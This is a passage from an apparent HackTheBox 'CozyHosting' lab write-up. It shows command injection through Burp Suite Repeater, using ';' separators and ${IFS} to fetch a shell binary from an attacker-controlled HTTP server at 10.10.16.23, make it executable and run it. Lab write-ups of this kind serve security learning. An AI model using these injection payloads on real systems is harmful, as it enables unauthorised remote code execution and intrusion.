 I intercepted the above request using the Burp Suite tool. I created a "shell" file. Then I uploaded a shell file on the targeted machine, changed the permissions of the uploaded file, and ran the shell file using the Burp Suite tool's Repeter functionality. Below, I have mentioned commands and screenshots of these steps.

Commands on the web application:

```bash
;wget${IFS}http://10.10.16.23:50505/shell${IFS}-P${IFS}/tmp/shell;

;chmod${IFS}777${IFS}/tmp/shell/shell;

;/tmp/shell/shell;
```

Attacker's machine command:

`python3 -m http.server 50505`

![Shell upload](https://github.com/het-desai/hackthebox/blob/main/cozyhosting/screenshots/shellupload.png "Shell upload")

![Change permission](https://github.com/het-desai/hackthebox/blob/main/cozyhosting/screenshots/changepermission.png "Change permission")
